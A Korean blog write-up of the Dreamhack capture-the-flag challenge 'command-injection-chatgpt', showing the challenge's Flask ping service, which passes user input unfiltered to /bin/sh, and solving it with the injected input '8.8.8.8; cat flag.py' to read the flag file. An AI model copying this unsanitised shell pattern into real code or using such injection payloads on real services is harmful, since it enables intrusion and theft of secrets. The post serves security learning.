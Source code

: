 ```yaml
---
title: (7) Dreamhack command-injection-chatgpt 문제 풀이
date: 2024-01-12 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
특정 Host에 ping 패킷을 보내는 서비스입니다.  
Command Injection을 통해 플래그를 획득하세요. 플래그는 flag.py에 있습니다.  
chatGPT와 함께 풀어보세요!  

## 문제 풀이
코드 부터 보겠습니다.
```python
#!/usr/bin/env python3
import subprocess

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)


@APP.route('/')
def index():
    return render_template('index.html')


@APP.route('/ping', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'ping -c 3 {host}'
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Timeout !')
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'an error occurred while executing the command. -> {cmd}')

    return render_template('ping.html')


if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)
```
22번째 줄에서 그냥 /bin/sh로 ping 커맨드의 결과를 받아오는게 보일 겁니다. 다른 필터링도 안보이고요.
![](http://kyuyeop.github.io/assets/img/post/7/1.png)
이렇게 정상적인 아이피를 쳐주면
![](http://kyuyeop.github.io/assets/img/post/7/2.png)
그냥 커맨드 실행 결과를 그대로 뱉어주네요.  
다른 명령어를 실행하고 싶으면 ;나 &&하고 그냥 다음 명령어를 입력하기만 하면 됩니다.  
  
그냥 flag.py를 읽도록 이렇게 입력해 보겠습니다.
```
8.8.8.8; cat flag.py
```
![](http://kyuyeop.github.io/assets/img/post/7/3.png)
flag를 얻었습니다.
{% endraw %}
